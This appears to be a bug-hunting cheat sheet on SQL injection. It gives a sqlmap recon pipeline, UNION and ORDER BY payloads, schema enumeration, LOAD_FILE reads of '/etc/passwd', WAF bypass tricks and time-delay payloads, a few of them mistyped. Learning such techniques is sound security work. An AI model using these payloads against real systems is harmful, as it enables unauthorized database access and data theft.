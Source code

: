 Here are some quick methods to detect the SQL Injection vulnerability, though the methods are not limited. There are various tricks and tools.

1. Using Burpsuite :

  1. Capture the request using burpsuite.
  2. Send the request to burp scanner.
  3. Proceed with active scan.
  4. Once the scan is finished, look for SQL vulnerability that has been detected.
  5. Manually try SQL injection payloads.
  6. Use SQLMAP to speed up the process.

2. Using waybackurls and other bunch of tools :

  1. sublist3r -d target | tee -a domains (you can use other tools like findomain, assetfinder, etc.)
  2. cat domains | httpx | tee -a alive
  3. cat alive | waybackurls | tee -a urls
  4. gf sqli urls >> sqli
  5. sqlmap -m sqli --dbs --batch
  6. use tamper scripts

3. Using heuristic scan to get hidden parameters :

  1. Use subdomain enumeration tools on the domain.
  2. Gather all urls using hakcrawler, waybackurls, gau for the domain and subdomains.
  3. You can use the same method described above in 2nd point.
  4. Use Arjun to scan for the hidden params in the urls. 
  5. Use --urls flag to include all urls.
  6. Check the params as https://domain.com?<hiddenparam>=<value>
  7. Send request to file and process it through sqlmap.

4. Error generation with untrusted input or special characters :

  1. Submit single quote character ' & look for errors.
  2. Submit SQL specific query.
  3. Submit Boolean conditions such as or 1=1 and or 1=0, and looking application's response.
  4. Submit certain payloads that results in time delay.

5. Finding total number of columns with order by or group by or having :

  Submit a series of ORDER BY clause such as 
	  
    ' ORDER BY 1 --
	  ' ORDER BY 2 --
    ' ORDER BY 3 --
    
    and incrementing specified column index until an error occurs.

6. Finding vulnerable columns with union operator :

  Submit a series of UNION SELECT payloads.
  
	  ' UNION SELECT NULL --
    ' UNION SELECT NULL, NULL --
    ' UNION SELECT NULL, NULL, NULL --
    
  (Using NULL maximizes the probability that the payload will succeed. NULL can be converted to every commonly used data type.)

  To go for the methods in more detail, go through portswigger site.

    https://portswigger.net/web-security/sql-injection/union-attacks

7. Extracting basic information like database(), version(), user(), UUID() with concat() or group_concat()

  1. Database version

    Oracle 			  SELECT banner FROM v$version
		        		  SELECT version FROM v$instance
    
    Microsoft 		SELECT @@version
    
    PostgreSQL 		SELECT version()
    
    MySQL 			  SELECT @@version

  2. Database contents

    Oracle 		    SELECT * FROM all_tables
		              SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
    
    Microsoft 	  SELECT * FROM information_schema.tables
                  SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
    
    PostgreSQL 	  SELECT * FROM information_schema.tables
                  SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

    MySQL 	      SELECT * FROM information_schema.tables
                  SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

  3. Shows version, user and database name

   ' AND 1=2 UNION ALL SELECT concat_ws(0x3a,version(),user(),database())
   
  4. Using group_concat() function, used to concat all the rows of the returned results.
  
   ' union all select 1,2,3,group_concat(table_name),5,6 from information_schema.tables where table_schema=database()–

8. Accessing system files with load_file(). and advance exploitation afterwards :

   ' UNION ALL SELECT LOAD_FILE ('/ etc / passwd')

9. Bypassing WAF :

  1. Using Null byte before SQL query.

    %00' UNION SELECT password FROM Users WHERE username-'xyz'--

  2. Using SQL inline comment sequence.

    '/**/UN/**/ION/**/SEL/**/ECT/**/password/**/FR/OM/**/Users/**/WHE/**/RE/**/username/**/LIKE/**/'xyz'-- 

  3. URL encoding
      
      for example :
    / URL encoded to %2f
    * URL encoded to %2a

    Can also use double encoding, if single encoding doesn't works. Use hex encoding if the rest doesn't work.

  4. Changing Cases (uppercase/lowercase)

     For more step wise detailed methods, go through the link below.
    
      https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF
    
  5. Use SQLMAP tamper scripts. It helps bypass WAF/IDS/IPS.
  
      1. Use Atlas. It helps suggesting tamper scripts for SQLMAP.
      
        https://github.com/m4ll0k/Atlas
  
      2. JHaddix post on SQLMAP tamper scripts. 
      
        https://forum.bugcrowd.com/t/sqlmap-tamper-scripts-sql-injection-and-waf-bypass/423
        
10. Time Delays :

      Oracle 	      dbms_pipe.receive_message(('a'),10)
      
      Microsoft 	  WAITFOR DELAY '0:0:10'
      
      PostgreSQL 	  SELECT pg_sleep(10)
      
      MySQL 	      SELECT sleep(10) 
      
11. Conditional Delays :

      Oracle 	      SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
      
      Microsoft 	  IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'
      
      PostgreSQL 	  SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
      
      MySQL 	      SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a') 
      
12. Resources and tools that will help gain an upper hand on finding bugs :

      Portswigger SQL Injection cheat sheet - https://portswigger.net/web-security/sql-injection/cheat-sheet
      
      HTTPX - https://github.com/encode/httpx
      
      GF patterns - https://github.com/1ndianl33t/Gf-Patterns
      
      GF (Tomnomnom)- https://github.com/tomnomnom/gf
      
      We can also use gau with waybackurls to fetch all urls.
      
        Waybackurls - https://github.com/tomnomnom/waybackurls
        
        Gau - https://github.com/lc/gau
        
      Arjun - https://github.com/s0md3v/Arjun
      
      Hakcrawler - https://github.com/hakluke/hakrawler
      
      
